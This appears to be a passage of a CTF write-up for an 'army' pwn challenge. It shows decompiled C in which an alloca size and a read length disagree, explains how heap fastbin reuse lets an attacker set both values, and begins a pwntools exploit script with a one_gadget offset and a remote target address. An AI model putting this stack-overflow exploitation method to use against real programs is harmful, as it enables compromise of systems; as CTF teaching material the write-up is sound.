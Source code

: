 ```c
signed __int64 delete()
{
  int v1; // eax
  void *v2; // rsp
  __int64 v3; // [rsp+0h] [rbp-30h]
  int v4; // [rsp+Ch] [rbp-24h]
  void *buf; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]

  if ( !if_created )
    return 0LL;
  v1 = me->des_len;
  v6 = v1 - 1LL;
  v2 = alloca(16 * ((v1 + 15LL) / 0x10uLL));    // 8 up
  buf = &v3;
  printf("Enter your answer : ", v1, (v1 + 15LL) % 0x10uLL, 16LL, v1, 0LL);
  v4 = g_des_len;
  read(0, buf, g_des_len);
  puts("So trolled man, Imma demote you. Now you will be junior to your friends hahahaha so embarrasing.");
  free(me->name);
  free(me->descript);
  //...
}
```

it uses `me->des_len` to do stack allocation but uses `g_des_len` as the size, so this could cause overflow, and there is no canary.

The way to control `g_des_len` is easy, it's just length of last description

How can we control `me->des_len`? well, the soldier struct will be allocated from 0x30 fastbin, and this will be the previous `me->name` if the length of descript is not 0x30 fastbin, which is contollable.

PS: the `g_des_len` is `char`, but `me->des_len` is `int`; however, this does not seems to be exploitable.

exp:

```python
from pwn import *

g_local=True
context.log_level='debug'

ONE_GADGET_OFF = 0x4526a
if g_local:
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	sh = process('./army')#env={'LD_PRELOAD':'./libc.so.6'}
	#gdb.attach(sh)
else:
	sh = remote("185.168.131.122", 6000)
	e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	#ONE_GADGET_OFF = 0x4557a

def create(descrip, length):
	sh.send("1\n")
	sh.recvuntil("Enter name: ")
	sh.send("1\n".ljust(0x23, "\x00"))
	sh.recvuntil("Enter height: ")
	sh.send("1\n")
	sh.recvuntil("Enter weight: ")
	sh.send("1\n")
	sh.recvuntil("Enter length of answer: ")
	sh.send(str(length) + "\n")
```